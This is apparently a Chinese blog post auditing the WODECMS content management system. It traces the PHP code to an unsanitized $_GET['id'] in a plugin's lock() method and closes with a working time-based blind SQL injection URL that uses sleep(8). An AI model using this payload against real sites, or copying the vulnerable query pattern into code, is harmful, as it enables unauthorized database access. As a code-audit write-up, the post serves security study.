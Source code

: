 ```yaml
---
layout:     post
title:      对wodecms的一次审计
subtitle:   
date:       2017-10-20
author:     sp4rk
header-img: 
catalog: true
tags:
    - php
    - code audit
    - sql injection
---
```




## 0x01 前言  

  下载链接：[WODECMS开源内容管理系统](http://down.chinaz.com/soft/38302.htm)，这个cms的漏洞有前台注入，漏洞触发点是在插件里面的友情链接中。
## 0x02 分析
  我们先看根目录的plugins.php,30行这里实例化了类，
```php
$control = new Controller();
$control->Plugin();
```


<!--more-->


这里我们跟踪Controllor类和Plugin()方法，先看Plugin()方法，/WODECMS/core/controller.class.php中74行
```php
public function Plugin() {
		$module = StringUtil::new_html_special_chars ( $_GET ['dir'] );
		$controlFile = ROOT_PATH . '/plugins/' . $module . '/Main.class.php';
		if (! file_exists ( $controlFile )) {
			$this->setValue ( "error", '访问异常或者插件未安装' );
			$this->forward ( "error.html" );
			exit ();
		}
```

可以看到这里需要get传入一个dir参数，控制文件在/plugins/目录下的Main.class.php中，我们再看Main.class.php中14行和第173行
```php
class Main extends controller {
	public $objName = 'link';
......
......
    public function lock() {
    	$msgObj = new Msg();
        $_Obj = M($this->objName);
        $sql = "update ".$_Obj->table." set yz = 0 where id = " . $_GET['id'];
        $_Obj->query($sql);
        $msgObj->addMsg('warn', Config::lang("LOCKSUCCESS"));
        $this->linkSortList();
    }
```
这里意思是说，lock方法中，link经过M方法
```php
function M($modelName) {
	$baseClassPath = ROOT_PATH . '/' . APP_PATH . '/data/bean/' . $modelName . 'Base.class.php'; //base类,字段缓存
	$baseModelPath = ROOT_PATH . '/' . APP_PATH . '/model/' . $modelName . 'Action.class.php'; //action类
	if (! file_exists ( $baseClassPath )) {
		createFieldKeys ( $modelName ); //自动创建字段缓存
	}
	if (! file_exists ( $baseModelPath )) {
		createBaseModel ( $modelName ); //自动创建Action类
	}
	$modelName = $modelName . "Action";
	if (! class_exists ( $modelName, false )) {
		include ($baseClassPath);
		include ($baseModelPath);
	}
	! file_exists ( $baseModelPath ) && exit ( Config::lang ( "MODEL" ) . $modelName . Config::lang ( "NOTEXISTS" ) );
	! class_exists ( $modelName ) && exit ( Config::lang ( "MODEL" ) . $modelName . Config::lang ( "NOTDEFINED" ) );
	$model = new $modelName ();
	return $model;
}
```
被实例化，返回为一个$moudle，然后经过sql语句update操作，这里我们可以看到其中$_GET['id']没有保护，可造成注入。
  理清楚了路由规则后，我们可以开始构造exp:
```
http://localhost/plugins.php?dir=link&do=lock&id=1 and (select * from (select(sleep(8)))aaa)#
```
可以发现延时![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc8r0qm7j31e20mejsn.jpg)
